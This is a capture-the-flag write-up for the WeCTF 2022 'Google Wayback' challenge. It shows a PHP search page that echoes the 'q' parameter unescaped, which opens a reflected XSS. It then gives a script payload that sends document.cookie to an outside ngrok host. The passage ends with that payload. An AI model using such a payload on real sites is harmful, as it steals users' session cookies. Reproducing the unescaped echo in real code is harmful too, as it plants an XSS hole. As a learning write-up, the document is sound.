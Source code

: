 # WeCTF 2022 write-up - Google Wayback

![](https://i.imgur.com/I9v9UcT.png)

This is the 3rd edition of WeCTF and this is the only CTF I'm following since the begining - because I started playing in 2020 - and it's one of my favorites, since I'm a big Web Hacking fan :)

## The Challenge

![](https://i.imgur.com/EGB137G.png)

```
Google Wayback
A copycat site of Google in 2001.

Hint: Do you know Google used to have XSS?
Submit Your Hacking Site here: https://report_url

Source Code: https://storage.googleapis.com/wectf22/google.zip
```

In this challenge we have a simple php page simulating an old version of the Google Search page.

It's a [XSS](https://portswigger.net/web-security/cross-site-scripting) challenge. In those kind of challenges, there is an admin bot, which usually have cookies or Local Storage in the domain of the challenge app.
The mission is to trigger a XSS in the app, so we can hijack this "protected" information.

Code is really simple, with only two php pages:
1. `index.php`: The entry page with initial seach form (image above) 
2. `search.php`: The seach page, to which we post the seach query (image below).

![](https://i.imgur.com/zcd0Od8.png)

To solve the challenge, we need to send an URL to the admin bot, that triggers the XSS.

## XSS

Since the challenge points directly to an XSS, we must first find it, aaaaand it's a quite basic flaw, in the `search.php` page:

```php
<input class="lst" value="<?php echo $_GET["q"]; ?>" />
```
(Note that i'm ignoring most of the attributes of the input)

This is XSS 101. We don't have any XSS protection here, like CSP, sanitizers... Let's just test it.

Let's put a fetch into play and test it.
That's the payload we want to run in the admin (bot) browser:

```html
<script>
    flag = encodeURIComponent(document.cookie);
    fetch("http://myngrok.ngrok.io/flag?="+flag, {
        "mode": "no-cors"
    });
</script>
```
